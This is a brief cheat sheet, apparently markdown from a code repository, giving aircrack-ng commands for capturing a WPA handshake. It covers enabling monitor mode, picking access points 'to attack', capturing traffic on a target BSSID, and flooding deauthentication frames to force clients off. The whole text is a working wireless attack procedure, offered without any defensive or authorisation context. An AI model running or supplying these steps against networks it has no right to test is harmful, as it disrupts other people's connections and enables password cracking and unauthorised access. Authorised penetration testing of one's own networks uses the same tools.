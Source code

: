 #Capturing WPA handshake
Kill processes that might f stuff up:

    airmon-ng check kill
    
Start monitoring:

    sudo airmon-ng start wlan0
  
Find APs to attack:
  
    sudo airodump-ng mon0
    
Start listening for a handshake:

    sudo airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w name-of-file-to-output mon0 --ignore-negative-one


Start a mass disassociation to speed up previous step:

    sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 mon0 --ignore-negative-one